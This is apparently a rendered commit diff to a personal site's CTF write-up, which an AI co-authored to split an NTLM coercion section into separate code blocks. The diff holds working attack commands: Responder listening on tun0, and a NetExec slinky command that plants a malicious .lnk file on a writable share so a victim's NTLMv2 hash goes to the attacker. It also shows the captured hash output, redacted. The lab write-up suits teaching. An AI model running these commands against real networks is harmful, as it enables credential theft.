

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-city.md, in a window 1280 px wide and 1400 px high, scrolled down 17311 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Separate Slinky and Responder into distinct code blocks
Split the combined NTLMv2 coercion output into three separate
terminal blocks: Responder listener, NetExec Slinky deployment,
and Responder hash capture with narrative between each.

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/_ctf/hacksmarter-city.md
+++ b/_ctf/hacksmarter-city.md
@@ -506,14 +506,16 @@ IT Helpdesk – City Counci
 
 With write access to a share that Jon Peters actively browses, the NetExec `slinky` module was used to create a malicious `.lnk` file that forces an NTLM authentication back to the attacker's Responder listener.
 
+First, Responder was started to listen for incoming NTLM authentication attempts:
+
 ```bash
 responder -I tun0
 ```
 
+Then, the NetExec `slinky` module deployed a malicious `.lnk` file to the Uploads share:
+
 ```
 Exegol ➜ /workspace/docs x nxc smb 10.0.29.180 -u "clerk.john" -p '[REDACTED]' -M slinky -o NAME=Uploads SERVER=10.200.38.219
-/root/.pyenv/versions/3.11.14/lib/python3.11/site-packages/requests/__init__.py:l13: RequestsDependencyWarning: urllib3 (2.6.3) or chardet (6.0.0.post1)/charset_normalizer (3.4.4) doesn't match a supported version!
-  warnings.warn()
 SMB         10.0.29.180     445    DC-CC    [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local)
 (signing:True) (SMBv1:None) (Null Auth:True)
 SMB         10.0.29.180     445    DC-CC    [+] city.local\clerk.john:[REDACTED]
@@ -529,14 +531,16 @@ SMB         10.0.29.180     445    DC-CC    SYSVOL          READ            Logo
 SMB         10.0.29.180     445    DC-CC    Uploads         READ,WRITE      Logon server share
 SLINKY      10.0.29.180     445    DC-CC    [+] Found writable share: Uploads
 SLINKY      10.0.29.180     445    DC-CC    [+] Created LNK file on the Uploads share
+```
 
+When Jon Peters browsed the share, the `.lnk` file triggered an NTLM authentication back to Responder, capturing the NTLMv2 hash:
+
+```
 [SMB] NTLMv2-SSP Client   : 10.0.29.180
 [SMB] NTLMv2-SSP Username : CITY\jon.peters
 [SMB] NTLMv2-SSP Hash     :
 jon.peters::CITY:[REDACTED]
 ```
-
-Responder captured Jon Peters' NTLMv2 hash when he browsed the share containing the malicious `.lnk` file.
 
 ## 5.5 Cracking NTLMv2
 
````
